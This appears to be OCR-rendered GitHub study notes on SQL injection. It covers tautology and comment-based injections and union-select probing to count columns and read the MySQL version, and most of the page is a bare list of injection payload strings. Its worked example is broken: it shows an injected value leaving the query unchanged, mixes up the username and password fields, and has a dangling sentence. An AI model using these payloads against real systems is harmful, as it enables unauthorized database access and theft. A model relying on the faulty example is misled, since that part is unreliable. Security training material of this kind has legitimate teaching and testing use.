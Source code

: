### SQL Injection

Takes advantage of using raw strings in your application.  You only have control of the space between the quotes.  You need to comment out the "after" using a comment that will be dependent on the sql backend.

 - Default
  - `Select * from accounts where username = ".$password"`
 - $password = 'password'
  - `Select * from accounts where username = "password"`
 - $password = 'password OR 1=1 --'
  - `Select * from accounts where username = "password"`
If you pass in the value of $password = 'password' it would look like 


Tautology - Where you select all rows
 - `Select * from accounts where username = 'foo' or 1 -- `
Selective injections - Specific row
 - `Select * from accounts where username = 'foo' --`

#### Union Select
YOu can use the above with a union select in order to send raw queries to the db to identify version and such of the database

 - null is castable to any data type
 - try until you get it, then we can do more interesting things

 - ' union select null -- 
 - ' union select null,null -- 
 - ' union select null,null,...til success, null -- 
 
Now we can do things like this to determine the mysql version
 - ' union select null, version(), null 

Or this to detect the order displayed
 - ' union select null, 1, null 
 

 - sql - 
   - `' or 1='1` 
   - `' and 1='0`
   - `1' OR 1 = 1#`

   - ') or true--
   - ') or ('')=('
   - ') or 1--
   - ') or ('x')=('
   - " or true--
   - " or ""="
   - " or 1--
   - " or "x"="
   - ") or true--
   - ") or ("")=("
   - ") or 1--
   - ") or ("x")=("
   - 
   - '-'
   - ' '
   - '&'
   - '^'
   - '*'
   - ' or ''-'
   - ' or '' '
   - ' or ''&'
   - ' or ''^'
   - ' or ''*'
   - "-"
   - " "
   - "&"
   - "^"
   - "*"
   - " or `""-"`